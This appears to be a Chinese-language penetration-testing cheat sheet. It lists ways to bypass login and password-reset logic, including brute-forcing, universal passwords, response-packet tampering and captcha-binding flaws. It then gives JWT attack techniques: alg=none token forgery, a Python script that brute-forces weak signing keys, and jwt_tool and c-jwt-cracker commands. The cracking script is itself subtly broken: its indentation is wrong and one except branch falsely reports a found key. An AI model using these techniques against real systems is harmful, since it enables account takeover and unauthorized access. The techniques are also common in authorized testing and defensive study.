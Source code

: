 ### 一些存在问题的逻辑
	部分来自：https://mp.weixin.qq.com/s/_0aQYV_4Tz9knQgzs7WSvw
	任意用户注册
	可爆破用户名
	爆破用户名，密码
	用户名注入
	万能密码
	用户名Xss
	修改返回包信息，登入他人账户
	修改cookie中的参数，如user,adminid等
	HTML源码、JS等查看信息搜集一章
	后台登录参数修改为注册参数/reg、/register、/sign等
	登录失败返回包修改，例如“false”改为“true”，响应数值“0”改为“1”，登录后台。如果存在这些情况，一般前端Js、Html也可以直接找到后端对应的各类未授权访问接口
	Js、Html存在用户名密码注释信息
	根据系统查找系统对应的默认账号密码登录
	有些系统的密码为空，密码不填或者抓包后置空发送
	存在信息泄露手机号、邮箱、人名等可以到社工库查找对应的密码
	社工字典密码生成https://github.com/zgjx6/SocialEngineeringDictionaryGenerator
	页面无注册功能，通过Js或Html找到隐藏注册接口注册登录
	注册时验证码没有做好绑定，删除验证码参数，或者验证码参数为空可以注册
	验证码没有做好绑定，发送了验证码但是后端接收到任意验证码都可以注册、爆破、重置密码等

	密码重置
    	1．重置一个账户，不发送验证码，设置验证码为空发送请求。
    	2．发送验证码，查看相应包
	3．验证码生存期的爆破
    	4．修改相应包为成功的相应包
    	5．手工直接跳转到校验成功的界面
    	6．两个账户，重置别人密码时，替换验证码为自己正确的验证码
    	7．重置别人密码时，替换为自己的手机号
    	8．重置自己的成功时，同意浏览器重置别人的，不发验证码
    	9．替换用户名，ID，cookie，token参数等验证身份的参数
    	10．通过越权修改他人的找回信息如手机/邮箱来重置 
### JWT攻击手法
  	https://jwt.io/#debugger-io
	http://jsonwebtoken.io
	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkFtYXppbmcgSGF4eDByIiwiZXhwIjoiMTQ2NjI3MDcyMiIsImFkbWluIjp0cnVlfQ.UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY
	eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9        # header
	eyJzdWIiOiIxMjM0[...]kbWluIjp0cnVlfQ        # payload
	UL9Pz5HbaMdZCV9cS9OcpccjrlkcmLovL2A2aiKiAOY # signature
#### 未校验签名
  	将原JWT串解码后修改用户名等身份认证的地方，生成新token发送请求
#### 禁用哈希
![image](/assets/Pentest_Note/master/img/1.png)<br>

	Alg代表加密方式，修改用户名等身份认证的地方，把HS256设置为none生成token发送请求，使用python的pyjwt模块
![image](/assets/Pentest_Note/master/img/2.png)<br>

jwt.encode({'user':'admin','arg1':'value1','arg2':'value2'},algorithm='none',key='')
#### 爆破弱密钥
    >pip3 install pyjwt
    >python3 crack.py
```python
import jwt
import termcolor

jwt_str = R'token'
with open('/root/password.txt') as f:
  for line in f:
  key_ = line.strip()
  try:
    jwt.decode(jwt_str,verify=True,key=key_)
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
    break
  except(jwt.exceptions.ExpiredSignatureError,jwt.exceptions.InvalidAudienceError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.InvalidIssuedAtError,jwt.exceptions.ImmatureSignatureError):
    print('\r','\bfound key -->',termcolor.colored(key_,'green'),'<--')
  except jwt.exceptions.InvalidSignatureError:
    print('\r',' ' * 64, '\r\btry',key_,end='',flush=True)
    continue
else:
  print('\r','\bnot found.')
```
```python
import jwt
encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256') # encode with 'secret'

encoded = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE"
jwt.decode(encoded, 'Sn1f', algorithms=['HS256']) # decode with 'Sn1f' as the secret key

# result
{u'admin': True, u'sub': u'1234567890', u'name': u'John Doe'}
```  
#### jwt_tool
	git clone https://github.com/ticarpi/jwt_tool
	python3 -m pip install termcolor cprint pycryptodomex requests
	python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
#### c-jwt-cracker
	git clone https://github.com/brendan-rius/c-jwt-cracker
	./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
